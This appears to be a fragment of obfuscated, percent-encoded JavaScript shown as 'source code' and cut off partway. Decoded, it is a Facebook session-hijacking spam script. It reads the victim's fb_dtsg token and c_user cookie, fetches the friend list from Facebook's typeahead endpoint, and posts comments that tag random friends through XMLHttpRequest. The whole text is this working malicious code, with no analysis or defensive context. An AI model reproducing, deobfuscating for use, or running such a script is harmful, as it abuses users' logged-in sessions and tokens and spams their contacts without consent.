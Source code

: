 52%61%6E%64%6F%6D%41%72%6B%61%64%61%73%28%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%61%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%30%3B%69%3C%39%3B%69%2B%2B%29%7B%5F%30%78%37%38%39%32%78%61%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%7D%20%3B%72%65%74%75%72%6E%20%5F%30%78%37%38%39%32%78%61%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%79%6F%72%75%6D%5F%79%61%70%28%69%64%2C%5F%30%78%37%38%39%32%78%63%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%64%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%30%5D%2B%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%31%5D%2B%65%6E%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%5F%30%78%37%38%39%32%78%63%29%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%36%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%37%5D%2B%69%64%2B%5F%30%78%61%32%32%63%5B%34%38%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%39%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%31%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%36%5D%2B%66%62%5F%64%74%73%67%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%37%5D%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%35%38%5D%2C%5F%30%78%61%32%32%63%5B%35%39%5D%2C%74%72%75%65%29%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%32%5D%5D%28%5F%30%78%61%32%32%63%5B%36%30%5D%2C%5F%30%78%61%32%32%63%5B%36%31%5D%29%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%37%5D%5D%3D%3D%34%26%26%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%33%5D%5D%3D%3D%32%30%30%29%7B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%34%5D%5D%3B%7D%20%3B%7D%20%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%5F%30%78%37%38%39%32%78%38%29%3B%7D%20%3B%61%72%6B%61%64%61%73%6C%61%72%69%5F%61%6C%28%69%64%29%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%36%39%39%36%33%30%37%39%36%37%34%35%37%35%32%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%67%74%68%22%2C%22%65%6E%74%72%69%65%73%22%2C%22%70%61%79%6C%6F%61%64%22%2C%22%72%6F%75%6E%64%22%2C%22%3C%33%20%3C%33%20%40%5B%22%2C%22%75%69%64%22%2C%22%3A%22%2C%22%74%65%78%74%22%2C%22%5D%22%2C%22%20%22%2C%22%5C%78%32%36%66%69%6C%74%65%72%5B%30%5D%3D%75%73%65%72%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%30%5D%3D%66%72%69%65%6E%64%73%5F%6F%6E%6C%79%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%31%5D%3D%6E%6D%22%2C%22%5C%78%32%36%74%6F%6B%65%6E%3D%76%37%22%2C%22%5C%78%32%36%76%69%65%77%65%72%3D%22%2C%22%5C%78%32%36%5F%5F%75%73%65%72%3D%22%2C%22%68%74%74%70%73%3A%2F%2F%22%2C%22%69%6E%64%65%78%4F%66%22%2C%22%55%52%4C%22%2C%22%47%45%54%22%2C%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%6F%70%65%6E%22%2C%22%68%74%74%70%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%73%65%6E%64%22%2C%22%72%61%6E%64%6F%6D%22%2C%22%66%6C%6F%6F%72%22%2C%22%5C%78%32%36%66%74%5F%65%6E%74%5F%69%64%65%6E%74